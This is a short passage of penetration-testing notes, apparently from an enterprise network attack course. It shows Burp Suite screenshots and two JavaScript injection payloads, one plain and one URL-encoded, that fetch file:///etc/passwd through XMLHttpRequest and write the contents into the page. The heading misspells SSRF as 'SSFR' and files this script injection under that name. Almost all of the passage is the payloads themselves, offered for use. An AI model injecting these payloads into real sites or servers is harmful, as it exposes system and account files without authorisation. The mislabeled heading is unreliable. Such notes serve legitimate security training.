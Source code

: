 ![Burp Suite - Tracking POST Test](./assets/screenshots/attacking_enterprise_networks_external_testing_26.png)

**Server-Side Request Forgery (SSFR)**

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

```javascript
<script>x=new+XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

![Burp Suite - Tracking POST XSS Attempt](./assets/screenshots/attacking_enterprise_networks_external_testing_27.png)
